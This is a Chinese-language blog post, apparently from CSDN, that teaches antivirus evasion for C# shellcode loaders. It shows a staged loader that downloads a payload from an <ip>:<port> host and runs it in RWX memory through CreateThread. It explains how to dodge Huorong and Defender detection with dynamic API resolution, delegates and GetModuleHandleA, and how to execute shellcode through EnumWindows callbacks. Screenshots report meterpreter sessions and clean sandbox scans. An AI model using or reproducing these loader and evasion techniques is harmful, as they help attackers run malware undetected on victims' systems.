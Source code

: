 # 【技巧】.Net免杀 绕过主流杀软

## 前言

最近执行任务时，需要动用自己的免杀知识却发现它们不再生效，于是就有了本文。这次对windows api和C#又有了比在thm​学习时更深的认识和了解。

- C#动态加载
- LoadLinrary受限绕过
- EnumWindows函数执行shellcode

## C#动态加载 - 火绒

我在执行任务时，我惊讶的发现，我的TryHackMe 祖传C#代马 steged分阶段加载器，居然被火绒落地秒杀

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/8b980dd57e6f470b84ffbf2758c67fd1.png)

虽然360、defender不会报毒，但落地被火绒秒杀属实有点对不起thm大学的知识

伪代码：

```csharp
    [DllImport("kernel32")]
    private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

    [DllImport("kernel32")]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    
    string URI = "http://<ip>:<port>/<fileName>";
    WebClient webClient = new WebClient();
    webClient.DownloadData(URI);

    VirtualAlloc(0, (UInt32)State.Length, 0x1000, 0x40);
    Marshal.Copy(State, 0, (IntPtr)(Open), State.Length);
    
    CreateThread(0, 0, Open, parameter, 0, ref threadId);
    WaitForSingleObject(QQHandle, 0xFFFFFFFF);
    }
```

我针对代码，自下而上进行单行注释，直到p/invoke的CreateThread函数，当我把这个函数签名这一行给注释掉后，火绒就不杀了，结论就是：**火绒碰到p/invoke的CreateThread立马干掉**。

我尝试了CreateRemoteThread，这并不会导致被杀，也就是说目前可以确定火绒只会针对：

```csharp
    [DllImport("kernel32")]
    private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```

换句话说只要IAT表或导入表里有CreateThread，立马就杀，所以这段代码不管怎么改也绕不过去

### 解决方案 - 动态加载

我总觉得我学过，但太久没用有点回忆不起来，我翻了翻曾经在thm上学的知识，最终还是找到了它

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/5f99e65582aa4bc99df487e0bee574b8.png)

这是C++版本的动态加载，通过LoadLibrary函数动态加载dll到内存，最后通过GetProcAddress函数获取指定的函数地址，最终实现调用指定dll的指定函数

### C#的实现

即便通过C#，想要做到这一点也相当简单，我们只需要通过委托来替代c++中的定义结构

首先我们需要通过p/invoke加载LoadLibrary和GetProcAddress，并且获取CreateThread函数的函数地址

```csharp
[DllImport("kernel32.dll")]
static extern IntPtr LoadLibrary(string _);

[DllImport("kernel32.dll")]
static extern IntPtr GetProcAddress(IntPtr __, string _);

...

h_Module = LoadLibrary("kernel32.dll");
fooProc = GetProcAddress(h_Module, "CreateThread");
```

创建委派，函数签名的参数个数、类型与CreateThread函数参数个数、类型一致

然后通过GetDelegateForFunctionPointer函数将函数指针转换成委托

```csharp
private delegate IntPtr _ct(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

...

var ct = Marshal.GetDelegateForFunctionPointer<ct>(fooProc);

```

这样，我们就可以通过委托去执行CreateThread函数了，对完整修改并编译后，**火绒最终还是失效了**

## Windows Denfender - LoadLinrary受限绕过

通过上述方法绕过火绒后，**没想到回头被defender给干掉了**，我通过同样的思路，对代码进行单行注释，结果发现defender的**检测点是p/invoke的LoadLibrary函数**，于是我去微软文档寻找函数平替。

最后发现GetModuleHandleA函数，它于LoadLibrary函数类似，但GetModuleHandleA不会被defender检测，通过它，我们成功绕过defender、火绒在对于IAT/导入表中某些函数的检测

![msf meterpreter常规反向上线正常](https://i-blog.csdnimg.cn/direct/8cfe56b2427c475596a4a2cb55430c23.png)

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/917b2f0df50146e78b6488a5c2d057b6.png)


defender静态、执行不报

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/e20d294b38064b1dacf23e023838f4ff.png)

火绒、360静态不报

执行也不报

![msf meterpreter上线](https://i-blog.csdnimg.cn/direct/c00c7734575e4d62bde46fe55110a2ba.png)

## 在线检测

基本上到这里也差不多够用，再通过其它thm、前辈的小技巧，混淆、加壳、签名等等，基本应该也够用了

**我这里就不作代码以外的事情，直接把上面的完整C#代码编译后，不作任何加壳签名啥的，直接裸上传沙箱看看效果**

### 微步云沙箱

微步云沙箱最终被标记为**安全**

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ffdd42950d694689b4b120a81a919020.png)

没有高危行为

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/adfa9b7f18c145ea8d746b47d88e02fb.png)

被一个Baidu-China检测了，其它全都不报

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/f823288f07644e10b06c7049c7ff2d01.png)

当然，如果不绕沙箱的话，最终的shellcode应该还是会被捕获并检测，毕竟shellcode是正版msf的payload，但绕沙箱不在本文范围。

## EnumWindows执行shellcode - CreateThread平替

此外我通过搜索微软文档，发现了一个函数可以通过callback回调函数，达到执行shellcode的效果

[EnumWindows](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumwindows)

只要把shellcode的地址丢给它，它便能执行，做到类似于CreateThread+WaitForSingleObject的效果
